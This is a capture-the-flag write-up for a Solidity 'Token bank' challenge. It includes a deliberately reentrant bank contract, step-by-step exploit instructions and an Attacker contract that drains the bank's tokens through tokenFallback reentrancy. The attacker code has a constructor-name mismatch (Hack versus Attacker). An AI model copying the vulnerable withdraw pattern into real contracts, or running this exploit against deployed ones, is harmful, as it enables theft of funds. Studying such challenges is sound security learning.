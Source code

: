 # Token bank

```
pragma solidity ^0.4.21;

interface ITokenReceiver {
  function tokenFallback(address from, uint256 value, bytes data) external;
}

contract SimpleERC223Token {
  // Track how many tokens are owned by each address.
  mapping (address => uint256) public balanceOf;

  string public name = "Simple ERC223 Token";
  string public symbol = "SET";
  uint8 public decimals = 18;

  uint256 public totalSupply = 1000000 * (uint256(10) ** decimals);

  event Transfer(address indexed from, address indexed to, uint256 value);

  function SimpleERC223Token() public {
    balanceOf[msg.sender] = totalSupply;
    emit Transfer(address(0), msg.sender, totalSupply);
  }

  function isContract(address _addr) private view returns (bool is_contract) {
    uint length;
    assembly {
      //retrieve the size of the code on target address, this needs assembly
      length := extcodesize(_addr)
    }
    return length > 0;
  }

  function transfer(address to, uint256 value) public returns (bool success) {
    bytes memory empty;
    return transfer(to, value, empty);
  }

  function transfer(address to, uint256 value, bytes data) public returns (bool) {
    require(balanceOf[msg.sender] >= value);

    balanceOf[msg.sender] -= value;
    balanceOf[to] += value;
    emit Transfer(msg.sender, to, value);

    if (isContract(to)) {
      ITokenReceiver(to).tokenFallback(msg.sender, value, data);
    }
    return true;
  }

  event Approval(address indexed owner, address indexed spender, uint256 value);

  mapping(address => mapping(address => uint256)) public allowance;

  function approve(address spender, uint256 value)
    public
    returns (bool success)
  {
    allowance[msg.sender][spender] = value;
    emit Approval(msg.sender, spender, value);
    return true;
  }

  function transferFrom(address from, address to, uint256 value)
    public
    returns (bool success)
  {
    require(value <= balanceOf[from]);
    require(value <= allowance[from][msg.sender]);

    balanceOf[from] -= value;
    balanceOf[to] += value;
    allowance[from][msg.sender] -= value;
    emit Transfer(from, to, value);
    return true;
  }
}

contract TokenBankChallenge {
  SimpleERC223Token public token;
  mapping(address => uint256) public balanceOf;

  function TokenBankChallenge(address player) public {
    token = new SimpleERC223Token();

    // Divide up the 1,000,000 tokens, which are all initially assigned to
    // the token contract's creator (this contract).
    balanceOf[msg.sender] = 500000 * 10**18;  // half for me
    balanceOf[player] = 500000 * 10**18;      // half for you
  }

  function isComplete() public view returns (bool) {
    return token.balanceOf(this) == 0;
  }

  function tokenFallback(address from, uint256 value, bytes) public {
    require(msg.sender == address(token));
    require(balanceOf[from] + value >= balanceOf[from]);

    balanceOf[from] += value;
  }

  function withdraw(uint256 amount) public {
    require(balanceOf[msg.sender] >= amount);

    require(token.transfer(msg.sender, amount));
    balanceOf[msg.sender] -= amount;
  }
}
```

## Goal

Withrdaw all of the SET tokens that TokenBankChallenge contract has in possession

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

There are two issues with the TokenBankChallenge, first it is reentrant (withdraw() function) and second there is flawer business login in handling the tokens that the bank possesses.

To exploit the contract we need to:

1. create Attacker contract, this contract will be inheriting ITokenReceiver interface and must have tokenFallback() function implemented, create instances from the SimpleERC223Token contract and TokenBankChallenge contract inside the Attacker contract. This contract will
  <ul>
  <li>have count storage variable to track how many times tokenFallback() is called</li>
  <li>have external transfer() function, we will call this function to transfer SET tokens from the attacker to the TokenBankChallenge contract, inside it we will make a call to the SimpleERC223Token transfer() function</li>
  <li>tokenFallback() function implemented, this is the function were we will cause the reentrancy to happen</li>
  <li>withdraw() external function, this is the function that will initiate the reentrant call</li>
  <ul>
2. withdraw all of the tokens that our account (player) has in possesion, calling the withdraw function from the TokenBankChallenge contract
3. transfer all of the tokens from the our account (player) to the Attacker contract, using the transfer() function from SimpleERC223Token
4. call the transfer() function from the Attacker contract and transfer all of the SET tokens from the Attacker to the TokenBankChallenge contract, amount should be 500000000000000000000000
5. call the withdraw() function from Attacker contract

## Attacker contract code

```
contract Attacker is ITokenReceiver {
  SimpleERC223Token private token;
  TokenBankChallenge private bank;
  uint256 public count;

  function Hack(address _token, address _bank) public {
    token = SimpleERC223Token(_token);
    bank = TokenBankChallenge(_bank);
  }

  function transfer(address to, uint256 value) external {
    token.transfer(to, value, "");
  }

  function tokenFallback(address from, uint256 value, bytes data) external {
    count++;
    if(count == 2) {
      bank.withdraw(500000000000000000000000);
    }
  }

  function withdraw(uint256 amount) external {
    bank.withdraw(amount);
  }
}
```
